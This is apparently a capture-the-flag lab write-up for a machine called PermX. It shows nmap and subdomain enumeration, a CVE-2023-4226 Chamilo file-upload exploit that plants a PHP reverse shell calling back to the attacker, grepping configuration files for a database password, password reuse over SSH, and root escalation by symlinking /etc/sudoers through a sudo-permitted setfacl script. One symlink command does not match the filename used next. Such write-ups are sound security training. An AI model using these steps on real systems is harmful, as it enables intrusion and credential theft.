


# Enumeration
## NMAP

```bash
nmap -sC -sV -Pn -p- 10.10.11.23 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 03:04 EDT
Nmap scan report for 10.10.11.23
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.24 seconds

```

# Subdomain

```bash
ffuf -u 'http://permx.htb' -H 'Host: FUZZ.permx.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fc 302   
```

```bash
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 63ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 81ms]
:: Progress: [19966/19966] :: Job [1/1] :: 760 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```
We found 2 subdomains which we will add to the `/etc/hosts`

Going to the `www` subdomain it redirects us to `permx.htb`.
Going to the `lms` subdomain it shows us a new page.



Looking further into chamilo we learn that it is an OpenSource learning management system and has a **[GitHub Repo](https://github.com/chamilo/chamilo-lms)**.

We can find the version that is running on the target with

```bash
curl lms.permx.htb/README.md > chamilo_readme.md
```

The running version is `1.11.x`

# Foothold
## Vulnerability Search
Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/CVE-2023-4226
Exploit  | https://github.com/krishnan-tech/CVE-2023-4226-POC/blob/main/CVE-2023-4226.py

The vulnerability we are going to exploit is the unauthenticated file upload, which we will use in order to upload a reverse php shell.

```bash
python3 exploit.py -u 'http://lms.permx.htb' -lhost '10.10.14.17' -lport 4444
File shell.php uploaded successfully.
You will get the shell, you can stop this script now.
```

```bash
find . -type d -name config
.
.
.
./main/auth/shibboleth/config
./main/inc/lib/javascript/ckeditor/skins/bootstrapck/scss/config
./app/Resources/public/assets/MathJax/unpacked/config
./app/Resources/public/assets/MathJax/config
./app/config
.
.
.
```

```bash
www-data@permx:/var/www/chamilo/app/config$ grep -i password * 2>/dev/null
grep -i password * 2>/dev/null
auth.conf.dist.php:  //admin password
auth.conf.dist.php:  'admin_password' => 'pass',
auth.conf.dist.php:    'password' => 'userPassword',
auth.conf.dist.php:$langMainInfoDetail = '<p>OpenID is a secure way to use one user ID and password to log in to many web sites without special software, giving the same password to each site, or losing control over which information is shared with each site that you visit.</p>';
auth.conf.php:  //admin password
auth.conf.php:  'admin_password' => 'pass',
auth.conf.php:    'password' => 'userPassword',
auth.conf.php:$langMainInfoDetail = '<p>OpenID is a secure way to use one user ID and password to log in to many web sites without special software, giving the same password to each site, or losing control over which information is shared with each site that you visit.</p>';
config.yml:                password: "%database_password%"
config.yml:    password:  "%mailer_password%"
configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
configuration.php:// Security word for password recovery
configuration.php:$_configuration['password_encryption'] = 'bcrypt';
configuration.php:// Set to true to allow automated password conversion after login if
```

```bash
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

```
We discovered the database user and passwords

```bash
www-data@permx:/var/www/chamilo/app/config$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash

```

We try to login into mtz with `03F6lY3uXAP2bkW8` and we are successful.
# Lateral Movement
```bash
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We discovered that this user can run the /opt/acl.sh as root without the need of a password.

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

```bash
mtz@permx:~$ ln -s /etc/sudoers
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root.txt
```

Now we can modify the sudoers file

```bash
mtz@permx:~$ nano sudoers 
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /bin/bash
```
```bash
mtz@permx:~$ sudo /bin/bash
root@permx:/home/mtz# cat root/root.txt
```